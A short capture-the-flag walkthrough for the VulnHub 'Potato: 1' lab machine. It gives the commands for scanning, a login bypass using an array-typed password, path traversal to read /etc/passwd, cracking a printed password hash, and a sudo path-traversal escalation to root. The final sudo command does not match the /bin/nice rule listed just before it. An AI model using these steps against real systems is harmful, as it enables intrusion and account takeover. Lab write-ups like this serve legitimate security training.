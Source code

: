

# Potato: 1 Walkthrough

**VulnHub Link:** [Potato: 1](https://www.vulnhub.com/entry/potato-1,529/)
**Difficulty:** Easy
**Release Date:** 2 Aug 2020


## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.175
```
## 2.Web Enumeration
```bash
dirb http://192.168.100.175
```


in burpsuite change password to --> password[]

and pass cookie found as password then with burpsuite , ../../../../../../etc/passwd found

florianges and webadmin users found


webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin,,,:/home/webadmin:/bin/bash

```bash
echo "webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/" > hash.txt

john hash.txt --wordlist=rockyou.txt
```
webadmin password --> dragon

user flag captured
```bash
sudo -l --> /bin/nice /notes/*

cp /bin/bash runme.sh

sudo /bin/bash /notes/../home/webadmin/runme.sh
```
root shell opened and root flag captured.
